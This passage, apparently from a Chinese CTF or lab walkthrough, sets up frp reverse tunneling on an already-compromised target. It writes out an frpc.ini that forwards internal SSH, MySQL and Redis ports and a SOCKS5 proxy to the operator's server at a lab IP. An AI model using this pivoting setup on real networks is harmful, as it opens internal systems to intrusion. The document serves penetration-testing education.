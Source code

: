 然后运行 frps
```shell
sudo ./frps -c frps.toml
```

访问 ```127.0.0.1:7500``` 可以看到服务已经启动

##### 配置客户端

这里是对受控制的靶机，即已经被 getshell 的外网服务器，进行操作

本题的 ```/app/tools``` 里面已经给好了 ```frpc``` 和 ```frpc.ini```

直接修改 ```frpc.ini```，原内容如下
```shell
[common]
server_addr = x.x.x.x
server_port = 7000

[plugin_socks5]
type = tcp
remote_port = 7777
plugin = socks5
# plugin_user = abc
# plugin_passwd = abc
```

这里要加入 ssh 服务、mysql 服务、redis 服务和 socks5，修改后如下
```shell
[common]
server_addr = 192.168.179.129
server_port = 7000
token = 1234

# 配置ssh服务
[ssh]
type = tcp
local_ip = 172.20.0.2 
local_port = 22
remote_port = 6100

# 配置mysql服务
[mysql]
type = tcp
local_ip = 172.20.0.3 # 内网的某个开启mysql服务器的ip
local_port = 3306 # 内网的某个开启mysql服务器的端口
remote_port = 6300 # 将要转发到frp服务器端的某个端口

# 配置redis服务
[redis]
type = tcp
local_ip = 172.20.0.2
local_port = 6379
remote_port = 6400

[plugin_socks5]
type = tcp
remote_port = 7777
plugin = socks5
# plugin_user = abc
# plugin_passwd = abc
```
